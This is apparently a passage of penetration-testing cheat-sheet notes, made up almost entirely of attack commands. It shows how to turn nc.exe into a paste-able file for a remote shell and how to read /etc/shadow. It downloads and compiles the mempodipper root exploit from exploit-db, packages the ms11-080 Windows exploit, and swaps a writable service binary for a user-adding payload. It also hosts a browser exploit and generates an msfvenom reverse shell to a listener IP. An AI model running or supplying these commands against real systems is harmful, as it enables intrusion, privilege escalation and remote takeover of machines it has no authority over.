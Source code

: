 ```text
$ locate nc.exe|grep binaries
$ cp /usr/share/windows-binaries/nc.exe .
$ upx -9 nc.exe
$ locate exe2bat
$ cp /usr/share/windows-binaries/exe2bat.exe .
$ wine exe2bat.exe nc.exe nc.txt

* the nc.txt file can now simply be copied and pasted into the remote non-interactive shell
```

## Privilege escalation - Linux

```text
//more info at http://blog.zx2c4.com/749

$ id
$ cat /etc/shadow|grep root
$ wget -O exploit.c http://www.exploit-db.com/download/18411
$ gcc -o mempodipper exploit.c
$ ./mempodipper
```

## Privilege escalation - Windows

Python scripts can be turned into Standalone executables with pyinstaller

```text
> python pyinstaller.py --onefile ms11-080.py
```

### File Permissions

Everyone Windows group has full read and write access to the file. This would allow a lower privileged user to replace the affected file used with a malicious one.

```text
c:\Program Files\Photodex\ProShow Producer>icacls <exe_file>
c:\Program Files\Photodex\ProShow Producer>icacls scsiaccess.exe

$ cat useradd.c
$ i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c
```

## Client Side Exploits

```text
$ cd /var/www/html/
$ wget -O exploit.html http://www.exploit-db.com/download/24017
$ systemctl start apache2
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f
js_le -e generic/none
```
